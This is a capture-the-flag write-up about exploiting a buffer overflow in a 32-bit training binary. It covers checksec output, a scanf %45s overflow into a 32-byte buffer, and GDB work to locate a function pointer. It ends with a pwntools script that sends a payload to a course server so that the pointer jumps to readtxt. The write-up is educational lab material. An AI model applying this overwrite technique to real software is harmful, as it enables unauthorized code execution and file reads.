 # CTF Week #5 (Buffer Overflow)

## Exploring

First, we run `checksec program` to find if it has any countermeasures.

<p align="center" justify="center">
  <img src="./assets/CTF5/step1.png"/>
</p>

From the output, we understand that:
* The architecture is x86 with a 32-bit address space.
* The screenshot shows that there is protection on the return address (stack canary), but this only appeared on some computers and shouldn't influence the overall CTF.
* The NX (No eXecute) bit is disabled, meaning we can execute code on the stack.
* The program is not compiled as Position-Independent Executable (PIE). <!-- precisa de esplicar isso? -->
* There are segments with both Read, Write, and Execute (RWX) permissions.

## Code Analysis

1. The program has a function `readtxt(char* name)` that takes a file name as input and reads it using the `cat` command. The filename, without the extension, should be fewer than 6 characters.
2. If we can set the parameter `name` in the `readtxt` function and invoke it by modifying the `fun` function pointer, we will be able to get the flag.
3. There is a buffer overflow vulnerability in the code:
    * On line 18, a buffer is defined with a size of 32 bytes: `char buffer[32];`.
    * On line 26, the program uses `scanf("%45s", &buffer);`, which reads up to 45 bytes from standard input into the buffer, allowing for a potential overflow.

## Attack

The strategy was to overwrite the `fun` function pointer to point to `readtxt` and set the parameter to "`flag`".

### Step 1: Locate the `fun` Pointer

First, we run GDB and found addresses of `readtxt` and `echo` functions:

<p align="center" justify="center">
  <img src="./assets/CTF5/step2.png"/>
</p>

* The address of `readtxt` is `0x080497a5` 
* The address of `echo` is `0x080497e3`

Then, we set a breakpoint at line 23, where the `fun` pointer is assigned, and examine the first 45 bytes of the `buffer` (as we can manipulate them using the buffer overflow):

<p align="center" justify="center">
  <img src="./assets/CTF5/step3.png"/>
</p>

We observed that at stack address `0xffffd040`, the first 4 bytes were changing between the addresses of `readtxt` (`0x080497a5`) and `echo` (`0x080497e3`). This confirmed that the memory location corresponds to the fun variable.

### Step 2: Setting the Parameter to `"flag"`

To exploit the vulnerability, we will set the `fun` function pointer to `readtxt` using the payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08` with 32 bytes and address of `readtxt`
> Note: address of `readtxt` - `0x080497a5` is written as `\xa5\x97\x04\x08` in little-endian format.

After running the payload, we got the following output:

<p align="center" justify="center">
  <img src="./assets/CTF5/step4.png"/>
</p>

The program attempted to open a file named `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'$'\245\227\004\b` so we can set first bytes to string `flag` and use `\0` to mark the end of the string.

With this payload, we successfully retrieved the flag:

<p align="center" justify="center">
  <img src="./assets/CTF5/step5.png"/>
</p>

## Submit on server

As a last step we needed to uncomment line 5 to use with a server.

The final version of `exploit-template.py` is:
```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 40964)

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

When running the exploit, we obtained the flag:

<p align="center" justify="center">
  <img src="./assets/CTF5/step6.png"/>
</p>

